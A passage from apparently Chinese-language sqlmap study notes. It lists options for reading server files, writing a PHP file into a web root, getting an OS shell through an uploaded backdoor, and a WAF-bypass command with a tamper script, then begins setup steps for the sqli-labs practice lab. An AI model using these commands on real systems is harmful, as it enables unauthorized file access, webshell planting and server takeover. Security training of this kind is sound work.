 ```
--file-read

从数据库服务器中读取文件
当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户权限使用特定的函数，读取的文件可以是本地文件也可以是二进制文件。

--file-read="c:\inetpub\wwwroot\msyql-php\1.php"
123456
```

##### 37、文件上传

```
--file-write
--file-dest

--file-write="c:\1.php" --file-dest="/var/www/html/x.php"
1234
```

##### 38、命令执行

```
--os-cmd
--os-shell
默认会上传一个任意文件上传后门
123
```

##### 39、WAF绕过

```
注入点：http://xxx.news.php?id=1

sqlmap -u "http://xxx.news.php?id=1" -v 3 --dbs --batch --tamper "space2morehash.py" 
```







 

## **sqli-labs题库**

下载sqli-labs

把文件夹放进phpstudy

访问，点击set reset database

根目录修改数据库密码 db-creds.inc







### **Less-01**
